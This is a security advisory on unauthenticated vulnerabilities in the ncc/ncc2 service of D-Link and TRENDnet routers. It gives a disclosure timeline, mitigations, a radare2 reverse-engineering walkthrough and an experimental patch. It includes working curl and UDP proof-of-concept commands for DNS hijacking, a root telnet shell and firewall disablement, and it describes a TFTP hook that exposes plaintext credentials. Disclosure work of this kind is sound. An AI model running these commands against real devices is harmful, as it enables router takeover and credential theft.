




## D-Link and TRENDnet 'ncc2' service - multiple vulnerabilities

##### Discovered by:
* Peter Adkins &lt;peter.adkins@kernelpicnic.net&gt;
* Tiago Caetano Henriques &lt;[@Balgan](https://twitter.com/Balgan)&gt; (See notes)

##### Access:
* Local network; unauthenticated access
* Remote network; unauthenticated access (See notes)
* Remote network; 'drive-by' via CSRF

##### Tracking and identifiers:
* CVE - Mitre contacted; not yet allocated
* CVE - ping.ccp - CVE-2015-1187 (See notes)

##### Platforms / Firmware confirmed affected:
* D-Link DIR-820L (Rev A) - v1.02B10
* D-Link DIR-820L (Rev A) - v1.05B03
* D-Link DIR-820L (Rev B) - v2.01b02
* TRENDnet TEW-731BR (Rev 2) - v2.01b01

##### Additional platforms believed to be affected *:
* D-Link DIR-808L (Rev A) - v1.03b05
* D-Link DIR-810L (Rev A) - v1.01b04
* D-Link DIR-810L (Rev B) - v2.02b01
* D-Link DIR-826L (Rev A) - v1.00b23
* D-Link DIR-830L (Rev A) - v1.00b07
* D-Link DIR-836L (Rev A) - v1.01b03
* TRENDnet TEW-711BR (Rev 1) - v1.00b31 - found by [@dyngnosis](https://twitter.com/dyngnosis)
* TRENDnet TEW-810DR (Rev 1) - v1.00b19 - found by [@dyngnosis](https://twitter.com/dyngnosis)
* TRENDnet TEW-813DRU (Rev 1) - v1.00b23 - found by [@dyngnosis](https://twitter.com/dyngnosis)

##### Vendor involvement:
* 2015-01-11 - Issues reported to D-Link via email (security contact).
* 2015-01-11 - Issues reported to TRENDnet via support ticket.
* 2015-01-12 - Initial response from TRENDnet.
* 2015-01-14 - Initial response from D-Link (security contact).
* 2015-01-19 - Email to Mitre.
* 2015-01-19 - TRENDnet request a few days to validate vulnerabilities.
* 2015-01-26 - TRENDnet confirm vulnerabilities and commit to Feb 10 fix.
* 2015-02-01 - Initial response from Mitre.
* 2015-02-04 - Requested an update from D-Link (security contact).
* 2015-02-10 - TRENDnet release 2.02b01 resolving vulnerabilities.
* 2015-02-10 - Emailed Mitre requesting follow up.
* 2015-02-10 - Emailed D-Link requesting follow up (security contact).
* 2015-02-18 - Emailed D-Link requesting follow up (security contact).
* 2015-02-21 - Contacted D-Link support as I had not still not heard back.
* 2015-02-22 - D-Link support were unsure as to my query.
* 2015-02-22 - Replied to D-Link support clarifying my request.
* 2015-02-23 - D-Link support directed me to the security reporting guide.
* 2015-02-26 - Vulnerability published to Bugtraq and GitHub.

##### Mitigation:
* Ensure remote / WAN management is disabled on the affected devices.
* Only allow trusted devices access to the local network.
* If using a listed TRENDnet device, install the patched firmware issued by the vendor.
* If using a listed D-Link device you'll need to use a third party tool such as µBlock (Chrome, Firefox and Safari) to blacklist requests to your router. This isn't ideal, but it's better than the alternative.

##### Notes:
* I was contacted on the morning of 2015-03-02 (PDT) that the `ping.ccp` vulnerability had already been found on November 30th 2014 by Tiago Caetano Henriques. This was reported to Swisscom CSIRT on the December 18th 2014. I've updated the document to reflect this information, the advisory for which has now been published at:
  * http://seclists.org/fulldisclosure/2015/Mar/15

* Due to the nature of the the `ping.ccp` vulnerability, an attacker can gain root access, hijack DNS settings or execute arbitrary commands on these devices with the user simply visiting a webpage with a malicious HTTP form embedded (via CSRF).

* Due to the location of this issue (`ncc` / `ncc2`) these vulnerabilities may be present in other devices and firmware versions not listed in this document.

* D-Link initially responded on their security contact within a week. However, after I had provided write ups of these vulnerabilities it went quiet. In over a month I have been unable to get any sort of response from D-Link, including as to whether they have managed to replicate these issues or when there will be a fix. I contacted D-Link support as a last ditch effort to reestablish contact, however I was linked back to the same security reporting process I had followed initially.

* Remote execution of these exploits is possible, but requires the device to already have remote / WAN management enabled; except in the case of `ping.ccp`, as above.

* If you have a D-Link device that is believed to be affected and can confirm whether the PoC is successful, please let me know and I will update this document and provide credit for your findings.

### Affected string table

In lieu of having access to the hardware to verify whether these vulnerabilities are present on devices listed as believed affected, analysis of the `ncc` / `ncc2` binaries present on these platforms has been performed.

As these binaries contain the 'offending' string, into which commands are able to be injected, we have strong suspicions that these devices are affected.

| Device     | Firmware | Address   |
|------------|----------|-----------|
| DIR-808LA1 | 1.03b05  | `0x56c12c` |
| DIR-810LA1 | 1.01b04  | `0x562fe0` |
| DIR-820LA1 | 1.02b10  | `0x547434` |
| DIR-826LA1 | 1.02b26  | `0x559eec` |
| DIR-830LA1 | 1.00b07  | `0x55e2f8` |
| DIR-836LA1 | 1.01b03  | `0x55a82c` |
| TEW-731BRV2 | 2.00b08 | `0x4dc048`|
| TEW-711BRV1 | 1.00b31  | `0x47c584` |
| TEW-810DRV1 | 1.00b19  | `0x567238` |
| TEW-813DRUV1 | 1.00b23 | `0x4e4b34` |

### fwupgrade.ccp

The `ncc` / `ncc2` service on the affected devices allows for basic firmware and language file upgrades via the web interface. During the operation, a HTTP POST is submitted to a resource named `fwupgrade.ccp`.

The request appears to be executed by the `ncc` / `ncc2` service on the device, which runs as the root user.

Unfortunately, the filtering on this resource does not appear to be effective, as: file / MIME type filtering is not being performed; and the 'on-failure' redirection to the login page is being performed AFTER a file has already been written the the filesystem in full. 

As a result of the above, this resource can be used to upload files to the filesystem of devices running vulnerable versions of `ncc` / `ncc2` without authentication. This is also possible over the internet if WAN / remote management has been previously enabled on the device.

To compound the issue, at least in the case of the listed devices, files are written to a ramfs filesystem which is mounted at `/var/tmp`. Unfortunately, this mountpoint is also used to store volatile system configuration files, such as `resolv.conf`.

As a result, an attacker is able to hijack a user's DNS configuration without authentication:

```bash
# Overwrite the DNS resolver with Google DNS
echo 'nameserver 8.8.8.8' > resolv.conf

curl \
 -i http://192.168.0.1/fwupgrade.ccp \
 -F action=fwupgrade \
 -F filename=resolv.conf \
 -F file=@resolv.conf
```

###  ping.ccp

The `ncc` / `ncc2` service on the affected devices allow for basic 'ping' diagnostics to be performed via the `ping.ccp` resource. Unfortunately, it appears that strings passed to this call are not correctly sanitized.

Much in the same manner as above, requests are executed by the `ncc` / `ncc2` service on the device, which is run as the root user.

The handler for `ping_v4` does not appear to be vulnerable as this resource maps the components of a IPv4 address, represented by a dotted quad, into a format of `%u.%u.%u.%u` at execution time. However, `ping_ipv6` references the user provided input directly as a string (`%s`), which is then passed to a `system()` call. This formatting allows for an attacker to pass arbitrary commands to the device through a HTTP request.

As this resource is also able to be accessed without authentication, it provides a vector for an attacker to execute arbitrary commands on the device - including, but not limited to, DNS hijacking and WAN firewall disablement - via CSRF.

```bash
# Spawn a root shell (telnet)
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(telnetd -l /bin/sh)'

# Flush the iptables INPUT chain and set the default policy to ACCEPT.
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(iptables -P INPUT ACCEPT)'
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(iptables -F INPUT)'
```

### UDPServer / MP Daemon

Note: This vulnerability does not seem to be present in firmware versions before 1.05B03 on the DIR-820LA1, however this may differ on other platforms.

The `ncc` / `ncc2` service on the affected devices appears to have been shipped with a number of diagnostic hooks available. Unfortunately, much in the same manner as the vulnerabilities discussed above, these hooks are able to be called without authentication.

One of the more 'interesting' hooks exposed by these devices allow for a `UDPServer` process to be spawned on the device when called. When started, this process begins listening on the LAN IP on UDP 9034. The source for this service (`UDPServer`) is available in the RealTek SDK, and appears to be a diagnostic tool.

Unfortunately, this process does not appear to perform any sort of input sanitization before passing user input to a `system()` call. As a result of the above, this process is vulnerable to arbitrary command injection.

```bash
# Spawn a root shell (telnet)
curl -i 192.168.0.1/test_mode.txt
echo "\`telnetd -l /bin/sh\`" > /dev/udp/192.168.0.1/9034
```

### Diagnostic hooks

Further to the 'test_mode' hook discussed above, the `ncc` / `ncc2` service on the affected devices appear to have been shipped with a number of other diagnostic hooks enabled by default:

 * tftpd_ready.txt
 * chklst.txt
 * wps_default_pin.txt
 * usb_connect.txt
 * wps_btn.txt
 * reset_btn.txt
 * reboot_btn.txt
 * calibration_ready24G.txt
 * calibration_ready5G.txt
 * restore_default_finish.txt
 * set_mac_finish.txt
 * test_mode.txt
 * wifist.txt

These resources do not exist on the filesystem of the device, nor do they appear to be static. Instead, these files appear to be rendered when queried and can be used to both interrogate the given device for information, as well as enable diagnostic services on demand.

Unfortunately, these hooks are able to be queried without any form of authentication, and are accessible by attackers on the local network, over the internet via WAN management (if enabled), and via CSRF.

A brief descriptions for each of these hooks is provided below. Those not listed provide either unknown functionality, or binary values which appear to represent system GPIO states (`*_btn.txt`).

##### tftp_ready.txt

When queried, this resource spawns a tftp daemon which has a root directory of `/`. As TFTP requires no authentication, this service can be used to extract credentials from the device or even download files from an external storage device connected via USB.

Unfortunately, due to the way this data is stored on the system, all credentials appear to be available in plain-text. These credentials can include (depending on the vendor and device configuration):

 * GUI / Device management credentials
 * Samba credentials
 * PPPoE credentials
 * Email credentials
 * 'MyDlink' credentials (on D-Link devices)

##### chklst.txt

When queried, this resource will return the following information:

 * Current WLAN SSIDs
 * Current WLAN channels
 * LAN and WAN MAC addressing
 * Current Firmware version information
 * Hardware version information
 * Language information

##### wps_default_pin.txt

When queried, this resource will return the default / factory WPS pin for the device.

##### usb_connect.txt

When queried, this resource will return a binary value which indicates whether an external device is connected to the USB port on the device - or null in the case of devices that do not have an exposed USB port.

This resource could potentially by used by an attacker to enumerate devices with USB storage attached.

### Analysis :: NCC2 :: ping.ccp

[](http://youtu.be/lG3ueVSVCis)

Of the issued listed in this document, the `ping.ccp` command injection vulnerability is arguably the worst - due to the ability for this vulnerability to be leveraged via CSRF. Simply put, it does not matter whether 'WAN management' is enabled on the device or not; visiting a webpage with a malicious javascript payload embedded is enough for an attacker to gain full access to the device.

In order to understand why this is possible, let's have a look through the `jjhttpd` and `ncc2` binaries. A cursory glance seems to indicate that the `ncc2` binary is providing CGI functionality to `jjhttpd` - where `jjhttpd` is handling inbound HTTP requests and dispatching them as required. However, let's confirm that this is the case before we go too much further.

Let's dump the symbol table from the `jjhttpd` binary with `readelf` and look for anything that might point us in the right direction.



Well, `do_ccp` looks like as good a place as any to start. Let's open up `do_ccp` (`0x0040d648`) in radare2 and see what we can find:


Okay, this looks like it's quite large. Doing things manually here is going to take a lot of time, and at this stage we're just attempting to work out how `ncc2` is called, not analyze `jjhttpd` itself (as the vulnerability appears to exist inside of `ncc2`).

In order to speed things up, let's make Ruby do our 'dirty' work for us. There is probably a more elegant way of doing this analysis - such as the radare2 API - but as we only need to do some string mangling, flat files will get us through.

To begin, we'll dump the disassembled view of `do_ccp` to file and use a combination `readelf` and `awk` to dump the GOT into a file that we can then use to correlate. It's worth noting that there is probably a nicer way of dumping the GOT directly from radare2, but I wasn't able to find a way that outputs a format similar to that of `readelf`.


Now that we have all of the details we need, we can feed these files into a quick Ruby script that first reads in the GOT and builds a Ruby hash in the format of `address => name`. It then reads the disassembled view of `do_ccp` and looks for any `lw t9, N(gp)` operations. When such an operation is found, it takes the value of `N` and the known value of `gp`, sums them and looks in the GOT hash for an entry at this address:


...27 lines of terribly written Ruby later and we have an easy to follow map of all `jalr` operations inside of `do_ccp` - as well as their associated addresses. Although this won't show us exactly what is going on, it allows us to quickly locate what we need inside of `do_ccp`.


Long story short, `jjhttpd` seems to be spawning a socket to an `ncc2` process, submitting the request, reading the response and closing the socket - all pretty pedestrian, but still nice to know there's no magic happening here. This also helps to confirm our suspicions that `jjhttpd` is dispatching requests to `ncc2` where the command processing is occurring, and ultimately, where the vulnerability lays. 

Okay, so now that `jjhttpd` is out of the way, let's have a look at `ncc2`.

To start with, we'll do the same as we did for `jjhttpd` above; we'll dump the GOT and disassembled view, and correlate the two with some Ruby glue.


Straight away we can see something interesting - being the `__system()` call at `0x00493adc`. Let's pop this address back open in radare2 and have a look at what's being passed to this function.

As we know the value of `gp` is `0x60F220` - which is calculated and stored onto the stack at the beginning of `doPingV6` (`0x004939d4`) - we can perform the rest of the operations by hand, commenting as we go.



Unfortunately, I forgot to add a comment above `0x00493ae4` but this is where the user submitted value is stored onto the stack:



The net result is that we now know the values of the argument registers that are used for the `__system()` call, as well as where the user provided string is ending up. Let's take the addresses for these argument registers and print their contents as strings:



Well, it looks like we've found out culprit at `0x547434`.

The user provided value is formatted into this string in place of the first `%s`. As a result, all that is needed is to encapsulate a command into a format that will be interpreted by the shell (such as `$()`) and piggy-backed command(s) will be executed when this call is evaluated.

We've managed to make it this far, so why don't we go ahead try to fix this ourselves, eh?

:warning: <b>Here be dragons.</b>

This is a very dirty 'patch' and is being shown as a proof-of-concept only. This is not for the 'faint of heart', and should only be attempted if you are comfortable with recovering your device from the bootloader. No support, nor warranty, is provided here and any attempts to replicate this patch are done so at your own risk.

Now, with that out of the way...

As we know that the vulnerability is due to an unsanitized string passed to a `system()` call, why not simply disable the call? My first thought was to `noop` out the offending instruction, however, this may lead to further issues. In an effort to keep things simple, why don't we replace the first part of the call with `true` - to satisfy any exit code checks - and then comment the rest of the command with `#`?

Let's see if it works...


Of course, for this to be useful, we'll need to replace the `ncc` / `ncc2` binary in the GPL package for this device / firmware, recompile the image and flash it onto the device. I've gone ahead and performed this already for the DIR-820LA1 v1.02b10 firmware and confirmed that it appears to mitigate this vulnerability.

Although this 'patch' only fixes the `ping.ccp` vulnerability, it saves us from 'drive-by' attacks while we wait for a fix from the vendor. The downside to this method is that D-Link do not appear to have published the GPL sources for their latest firmware builds. As a result, you may not be able to compile the latest firmware for your device, which may end in the introduction of further issues.

The long and short of it is: it's probably better to use something like µBlock and blacklist your router IP - to mitigate unwanted CSRF calls against your device - while we wait for a vendor fix.
